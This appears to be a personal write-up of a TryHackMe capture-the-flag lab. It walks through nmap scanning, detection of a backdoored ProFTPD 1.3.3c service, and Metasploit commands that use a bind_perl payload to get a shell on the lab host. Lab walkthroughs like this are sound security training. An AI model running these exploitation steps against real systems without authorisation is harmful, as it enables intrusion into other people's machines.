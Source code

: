 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.png">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.png">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.png">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.png">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.png">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

(This Link)[Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html]  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.png">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After some trial and error it seems we may not actually have a backdoor yet
	
After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot

Lets try msfconsole again
	
New IP of 10.10.144.237

Whelp thats not working time to try another path

... I lied after some research we may need to pick a payload
	
```msfconsole```

```search proftp```
	
```use 6```
	
```set RHOST 10.10.144.237```

```Show Options```
	

<img src="/images/TryHackMe/MiroLabsCapstone/Options.png">

```Run```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

Now I see we need to select a payload
	
```Show Payloads```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

```set payload cmd/unix/bind_perl```

ANNNNDDDD We are in!
	
<img src="/images/TryHackMe/MiroLabsCapstone/Owned.png">


<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
